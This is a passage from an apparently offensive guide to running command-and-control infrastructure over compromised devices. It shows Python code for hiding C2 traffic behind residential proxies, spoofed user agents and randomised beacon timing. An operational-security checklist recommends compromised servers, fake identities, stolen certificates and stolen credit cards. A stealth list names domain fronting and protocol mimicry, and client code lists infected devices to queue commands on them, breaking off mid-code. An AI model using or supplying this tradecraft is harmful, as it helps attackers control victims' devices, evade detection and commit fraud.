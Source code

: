 ```python
# Use residential proxies for C2 communication
proxies = {
    'http': 'http://user:pass@proxy.dataimpulse.com:8080',
    'https': 'http://user:pass@proxy.dataimpulse.com:8080'
}

# Rotate user agents
user_agents = [
    'Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X)',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 16_6 like Mac OS X)',
    'SystemService/1.0'
]

# Randomize request timing
import random
await asyncio.sleep(random.uniform(60, 300))
```

---

## Phase 8: Operational Security

### OPSEC Checklist

- [ ] **C2 Infrastructure**: Use bulletproof hosting or compromised servers
- [ ] **Domain Registration**: Use privacy protection, fake identity
- [ ] **SSL Certificates**: Use Let's Encrypt or stolen certificates
- [ ] **Payment Methods**: Use cryptocurrency or stolen credit cards
- [ ] **Access Methods**: Always use VPN/Tor for C2 access
- [ ] **Data Storage**: Encrypt all exfiltrated data at rest
- [ ] **Communication**: Use encrypted channels for all C2 traffic
- [ ] **Attribution**: Mask all identifying information
- [ ] **Cleanup**: Remove all traces after operation complete

### Stealth Techniques

1. **Traffic Obfuscation**: Disguise C2 traffic as normal HTTPS
2. **Domain Fronting**: Use CDN for C2 communication
3. **Timing Randomization**: Avoid predictable communication patterns
4. **Protocol Mimicry**: Mimic legitimate protocols (DNS, ICMP, HTTP)
5. **Encryption**: Use strong encryption for all data transmission

---

## Phase 9: Management Interface

### C2 Client Usage

```python
from c2_server import C2Client
import asyncio

async def manage_devices():
    client = C2Client("https://your-c2-domain.com")
    
    # List all devices
    devices = await client.list_devices()
    for device in devices:
        status = "🟢 ONLINE" if device['online'] else "🔴 OFFLINE"
        print(f"{status} {device['device_id']}")
    
    # Queue commands
    device_id = devices[0]['device_id']
```